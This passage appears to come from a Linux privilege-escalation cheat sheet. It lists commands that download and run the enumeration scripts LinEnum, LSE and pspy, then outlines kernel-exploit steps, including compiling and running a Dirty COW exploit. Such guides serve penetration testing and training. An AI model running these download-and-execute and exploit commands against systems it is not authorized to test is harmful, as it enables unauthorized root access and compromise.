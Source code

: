 ### LinEnum
```bash
curl -L https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -o LinEnum.sh
chmod +x LinEnum.sh
./LinEnum.sh
```

### LSE (Linux Smart Enumeration)
```bash
curl -L https://github.com/diego-treitos/linux-smart-enumeration/releases/latest/download/lse.sh -o lse.sh
chmod +x lse.sh
./lse.sh
```

### pspy (Process Spy)
```bash
# 64-bit
curl -L https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64 -o pspy64
chmod +x pspy64
./pspy64

# 32-bit
curl -L https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy32 -o pspy32
chmod +x pspy32
./pspy32
```

## Kernel Exploits

Identifying and exploiting kernel vulnerabilities:

1. Check kernel version:
```bash
uname -a
cat /proc/version
```

2. Search for known exploits:
```bash
searchsploit linux kernel [version]
```

3. Common kernel exploits:
   - Dirty COW (CVE-2016-5195)
   - overlayfs (CVE-2021-3493)
   - PTRACE_TRACEME (CVE-2019-13272)

Example: Exploiting Dirty COW
```bash
# Check if vulnerable
grep -q "Ubuntu 16.04" /etc/issue && echo "System might be vulnerable to Dirty COW"

# Download and compile exploit
gcc -pthread dirty.c -o dirty -lcrypt
./dirty password123
```
